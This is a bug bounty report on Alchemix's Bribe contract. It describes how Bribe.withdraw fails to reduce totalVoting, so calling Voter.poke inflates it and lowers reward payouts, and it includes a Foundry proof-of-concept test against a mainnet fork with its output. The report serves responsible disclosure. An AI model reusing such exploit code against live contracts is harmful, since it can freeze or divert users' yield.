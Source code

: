 # 31199 - \[SC - Critical] Users might receive less rewars token after Vot...

Submitted on May 14th 2024 at 20:56:20 UTC by @jasonxiale for [Boost | Alchemix](https://immunefi.com/bounty/alchemix-boost/)

Report ID: #31199

Report type: Smart Contract

Report severity: Critical

Target: https://github.com/alchemix-finance/alchemix-v2-dao/blob/main/src/Bribe.sol

Impacts:

* Permanent freezing of unclaimed yield

## Description

## Brief/Intro

A token owner can call `Voter.poke` to update the voting power, during the `Voter.poke` call, the `Bribe.totalVoting` isn't updated correctly, which results that the `Bribe.earned` will not calculate the rewards correctly.

## Vulnerability Details

While a token owner calls [Voter.poke](https://github.com/alchemix-finance/alchemix-v2-dao/blob/f1007439ad3a32e412468c4c42f62f676822dc1f/src/Voter.sol#L194-L212), `Voter._reset` is called at the beginning of the [Voter.\_vote](https://github.com/alchemix-finance/alchemix-v2-dao/blob/f1007439ad3a32e412468c4c42f62f676822dc1f/src/Voter.sol#L413). In `Voter._reset`, `Bribe.withdraw` is called in [Voter.sol#L396](https://github.com/alchemix-finance/alchemix-v2-dao/blob/f1007439ad3a32e412468c4c42f62f676822dc1f/src/Voter.sol#L396) And `Bribe.withdraw` is defined [as](https://github.com/alchemix-finance/alchemix-v2-dao/blob/f1007439ad3a32e412468c4c42f62f676822dc1f/src/Bribe.sol#L319-L329)

```solidity
319     function withdraw(uint256 amount, uint256 tokenId) external {
320         require(msg.sender == voter);
321 
322         totalSupply -= amount;
323         balanceOf[tokenId] -= amount;
324 
325         _writeCheckpoint(tokenId, balanceOf[tokenId]);
326         _writeSupplyCheckpoint();
327 
328         emit Withdraw(msg.sender, tokenId, amount);
329     }
```

On other side, `Bribe.deposit` is defined [as](https://github.com/alchemix-finance/alchemix-v2-dao/blob/f1007439ad3a32e412468c4c42f62f676822dc1f/src/Bribe.sol#L303-L316)

```solidity
303     function deposit(uint256 amount, uint256 tokenId) external {
304         require(msg.sender == voter);
305 
306         totalSupply += amount;
307         balanceOf[tokenId] += amount;
308 
309         totalVoting += amount;
310 
311         _writeCheckpoint(tokenId, balanceOf[tokenId]);
312         _writeSupplyCheckpoint();
313         _writeVotingCheckpoint();
314 
315         emit Deposit(msg.sender, tokenId, amount);
316     }
```

**As show above, `totalVoting` isn't updated in `Bribe.withdraw`, and the function doesn't call `_writeVotingCheckpoint` to update the checkpoint**.

Then, while calculating the reward in [Bribe.earned](https://github.com/alchemix-finance/alchemix-v2-dao/blob/f1007439ad3a32e412468c4c42f62f676822dc1f/src/Bribe.sol#L221-L280), the function uses `votingCheckpoints.votes` to calculate the rewards in [Bribe.sol#L255-L261](https://github.com/alchemix-finance/alchemix-v2-dao/blob/f1007439ad3a32e412468c4c42f62f676822dc1f/src/Bribe.sol#L255-L261) and [Bribe.sol#L268-L277](https://github.com/alchemix-finance/alchemix-v2-dao/blob/f1007439ad3a32e412468c4c42f62f676822dc1f/src/Bribe.sol#L268-L277)

```solidity
221     function earned(address token, uint256 tokenId) public view returns (uint256) {
...
242         if (_endIndex >= 0) {
243             for (uint256 i = _startIndex; i <= _endIndex; i++) {
...
254                 prevRewards.timestamp = _nextEpochStart;
255                 _prevSupply = votingCheckpoints[getPriorVotingIndex(_nextEpochStart + DURATION)].votes; <<<--- totalVoting is used here
256 
257                 // Prevent divide by zero
258                 if (_prevSupply == 0) {
259                     _prevSupply = 1;
260                 }
261                 prevRewards.balanceOf = (cp0.balanceOf * tokenRewardsPerEpoch[token][_nextEpochStart]) / _prevSupply;
262             }
263         }
...
268         uint256 _priorSupply = votingCheckpoints[getPriorVotingIndex(_lastEpochEnd)].votes; <<<--- totalVoting is used here
...
279         return reward;
280     }
```

So to sum up, during `Voter.poke` call:

1. `Bribe.withdraw` will be called, but within the function `Bribe.totalVoting` isn't deducting `amount`
2. `Bribe.deposit` will be called in [Voter.\_vote](https://github.com/alchemix-finance/alchemix-v2-dao/blob/f1007439ad3a32e412468c4c42f62f676822dc1f/src/Voter.sol#L441), but this time, `Bribe.totalVoting` is added `amount` So `Voter.poke` function will cause `Bribe.totalVoting` to increase. Then when calculating the rewards amount in `Bribe.earned`, `Bribe.totalVoting` is used, which will result wrong amount of rewards.

## Impact Details

User might receive less reward token after `Voter.poke` is called, and the unclaimed reward token will stuck in the contract.

## References

Add any relevant links to documentation or code

## Proof of Concept

Add the following code to `src/test/Voting.t.sol`, and run

```bash
$ FOUNDRY_PROFILE=default forge test --fork-url https://eth-mainnet.alchemyapi.io/v2/$API --fork-block-number 17133822 --mc VotingTest --mt testAliceBribes -vv
[⠊] Compiling...
No files changed, compilation skipped

Ran 2 tests for src/test/Voting.t.sol:VotingTest
[PASS] testAliceBribesNoPoke() (gas: 3532165)
Logs:
  token1 earned aura     :  50000
  token2 earned aura     :  50000

[PASS] testAliceBribesPoke() (gas: 3797647)
Logs:
  token1 earned aura     :  20000
  token2 earned aura     :  20000

Suite result: ok. 2 passed; 0 failed; 0 skipped; finished in 9.93ms (10.25ms CPU time)

```

From the output we can see that

1. in `testAliceBribesNoPoke` Alice doesn't call `Voter.poke`, token1 and token2 will get 50000\*1e18 aura
2. in `testAliceBribesPoke`, Alice calls `Voter.poke` 3 times, token1 and token2 will get 20000\*1e18 aura

```solidity
    function testAliceBribesNoPoke() public {
        address Alice = address(0x11001100);
        address Bob   = address(0x22002200);
        uint256 tokenId1 = createVeAlcx(Alice, TOKEN_1, MAXTIME, false);
        uint256 tokenId2 = createVeAlcx(Bob, TOKEN_1, MAXTIME, false);
        uint256 initialTimestamp = block.timestamp;

        address bribeAddress = voter.bribes(address(sushiGauge));
        uint256 rewardsLength = IBribe(bribeAddress).rewardsListLength();

        // Add BAL bribes to sushiGauge
        createThirdPartyBribe(bribeAddress, bal, TOKEN_100K);

        address[] memory pools = new address[](1);
        pools[0] = sushiPoolAddress;
        uint256[] memory weights = new uint256[](1);
        weights[0] = 5000;

        address[] memory bribes = new address[](1);
        bribes[0] = address(bribeAddress);
        address[][] memory tokens = new address[][](2);
        tokens[0] = new address[](2);
        tokens[0][0] = bal;
        tokens[0][1] = aura;

        hevm.prank(Alice);
        voter.vote(tokenId1, pools, weights, 0);

        hevm.prank(Bob);
        voter.vote(tokenId2, pools, weights, 0);

        // Adding a bribe to a gauge should increase the bribes list length
        // Should be able to add a bribe at any point in an epoch
        hevm.warp(block.timestamp + 6 days);
        createThirdPartyBribe(bribeAddress, aura, TOKEN_100K);

        hevm.warp(block.timestamp + 8 days);
        console2.log("token1 earned aura     : ", IBribe(bribeAddress).earned(aura, tokenId1) / 1e18);
        console2.log("token2 earned aura     : ", IBribe(bribeAddress).earned(aura, tokenId2) / 1e18);
    }
    function testAliceBribesPoke() public {
        address Alice = address(0x11001100);
        address Bob   = address(0x22002200);
        uint256 tokenId1 = createVeAlcx(Alice, TOKEN_1, MAXTIME, false);
        uint256 tokenId2 = createVeAlcx(Bob, TOKEN_1, MAXTIME, false);
        uint256 initialTimestamp = block.timestamp;

        address bribeAddress = voter.bribes(address(sushiGauge));
        uint256 rewardsLength = IBribe(bribeAddress).rewardsListLength();

        // Add BAL bribes to sushiGauge
        createThirdPartyBribe(bribeAddress, bal, TOKEN_100K);

        address[] memory pools = new address[](1);
        pools[0] = sushiPoolAddress;
        uint256[] memory weights = new uint256[](1);
        weights[0] = 5000;

        address[] memory bribes = new address[](1);
        bribes[0] = address(bribeAddress);
        address[][] memory tokens = new address[][](2);
        tokens[0] = new address[](2);
        tokens[0][0] = bal;
        tokens[0][1] = aura;

        hevm.prank(Alice);
        voter.vote(tokenId1, pools, weights, 0);

        hevm.prank(Bob);
        voter.vote(tokenId2, pools, weights, 0);

        hevm.prank(Alice);
        voter.poke(tokenId1);
        hevm.prank(Alice);
        voter.poke(tokenId1);
        hevm.prank(Alice);
        voter.poke(tokenId1);

        // Adding a bribe to a gauge should increase the bribes list length
        // Should be able to add a bribe at any point in an epoch
        hevm.warp(block.timestamp + 6 days);
        createThirdPartyBribe(bribeAddress, aura, TOKEN_100K);

        hevm.warp(block.timestamp + 8 days);
        console2.log("token1 earned aura     : ", IBribe(bribeAddress).earned(aura, tokenId1) / 1e18);
        console2.log("token2 earned aura     : ", IBribe(bribeAddress).earned(aura, tokenId2) / 1e18);
    }
```
